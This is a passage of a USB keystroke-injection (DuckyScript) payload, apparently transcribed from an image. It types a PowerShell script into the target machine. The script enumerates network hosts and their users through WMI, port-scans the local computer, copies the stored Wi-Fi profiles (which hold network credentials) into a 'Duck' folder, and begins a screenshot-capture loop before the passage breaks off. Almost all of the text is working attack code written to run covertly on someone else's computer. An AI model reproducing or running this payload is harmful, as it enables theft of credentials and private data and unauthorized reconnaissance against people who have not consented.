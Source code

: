 STRING $IPResults = $ScanResults |  Select-Object -Index $x 
ENTER
STRING $CompInfo = Get-WmiObject Win32_OperatingSystem -Computer $IPResults.Address | Select RegisteredUser, SystemDirectory  
ENTER
STRING $CompName = (Get-WmiObject Win32_OperatingSystem -Computer $IPResults.Address).csname 
ENTER
STRING $CurrIP = $IPResults.Address.IPAddressToString 
ENTER 
STRING $CurrOS = $CompInfo.SystemDirectory 
ENTER
STRING $CurrName = $CompInfo.RegisteredUser 
ENTER 
STRING if ($CompInfo -ne $null){ 
ENTER 
STRING $Report = $Report  + '<tr><td><b>IP Address:</b></td><td>' + $CurrIP + '</td><td><b>Compter Name: </b></td><td>' + $CompName + '</td><td><b>User Name: </b></td><td>' + $CurrName + '</td> <td><b>OS:</b> </td><td>' + $CurrOS + '</td></tr><br>' 
ENTER 
STRING }else{ 
ENTER
STRING $Report = $Report  + '<tr><td><b>IP Address: </b></td><td>' + $CurrIP + '</td><td><b>Computer Name: </b></td><td>NOT KNOWN</td><td><b>User Name: </b></td><td>NOT KNOWN</td><td><b>OS:</b></td><td>NOT KNOWN</td></tr><br>'} 
ENTER 
STRING $x ++ 
ENTER 
STRING } while ($x -lt $ScanResults.Count)
ENTER 
STRING $Report = $Report + '</table></div>' 
ENTER
STRING $Computer = $env:COMPUTERNAME
ENTER
STRING $PortList = 0, 21, 22, 23, 25, 79, 80, 110, 113, 119, 135, 137, 139, 143, 389, 443, 445, 1002, 1024, 1030, 1720, 1900, 5000, 8080
ENTER 
STRING $Report = $Report  + '<div id=right><h3>Port Scan of ' + $Computer + '</h3><table>' 
ENTER 
STRING foreach ($PortNumber in $PortList) { 
ENTER
STRING $PortCheck = New-Object Net.Sockets.TcpClient 
ENTER 
STRING $PortCheck.Connect($Computer, $PortNumber) 
ENTER 
STRING if ($PortCheck.Connected) { 
ENTER
STRING $Report = $Report  +  '<tr><td><b><font color=red>Port ' + $PortNumber + ' is open</font></b></td></tr>'} 
ENTER
STRING else {$Report = $Report  +  '<tr><td>Port ' + $PortNumber + ' is closed</td></tr>'}} 
ENTER
STRING $Report = $Report + '</table></div>' 
ENTER
STRING $wlanSaveDir = New-Item $userDir'\Duck\WLAN_PROFILES' -ItemType Directory
ENTER 
STRING $srcDir = 'C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces'
ENTER 
STRING Copy-Item $srcDir $wlanSaveDir -Recurse  
ENTER
STRING $jpegSaveDir = New-Item $fileSaveDir'\Screenshots' -ItemType Directory
ENTER
STRING $x = 0
ENTER
STRING do { Start-Sleep -Seconds 60